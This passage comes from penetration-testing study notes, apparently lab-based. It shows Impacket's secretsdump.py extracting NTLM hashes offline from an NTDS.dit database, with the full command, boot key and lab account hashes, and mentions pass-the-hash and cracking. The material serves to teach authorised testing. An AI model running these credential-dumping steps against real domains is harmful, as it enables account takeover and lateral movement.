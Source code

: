 ```powershell
      DefaultIterationCount: 4096
      Flags: 0
    WDigest:
Key Credentials:
Credential Roaming
  Created:
  Modified:
  Credentials:
```

### Extracting Hashes Using SecretsDump

`SecretsDump` can also be used offline to extract hashes from the NTDS.dit file. The hashes can then be used in pass-the-hash attacks to access additional resources or we can attempt to crack the hashes using tools like [hashcat.md](../../../../../toolbox/tooling/password-attacks/hashcat.md "mention").

{% hint style="info" %}
#### Reporting Statistics

If we crack any hashes we can present the client with password cracking statistics to provide them with detailed insights into the overall password strength within their domain and provide recommendations for improving their password policies.
{% endhint %}

```shell-session
clue@machine[~]$ secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL

Impacket v0.9.23.dev1+20210504.123629.24a0ae6f - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0xc0a9116f907bd37afaaa845cb87d0550
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 85541c20c346e3198a3ae2c09df7f330
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WINLPE-DC01$:1000:aad3b435b51404eeaad3b435b51404ee:7abf052dcef31f6305f1d4c84dfa7484:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a05824b8c279f2eb31495a012473d129:::
htb-student:1103:aad3b435b51404eeaad3b435b51404ee:2487a01dd672b583415cb52217824bb5:::
svc_backup:1104:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
bob:1105:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
hyperv_adm:1106:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
printsvc:1107:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::

<SNIP>
```

## Robocopy

### Copying Files with Robocopy
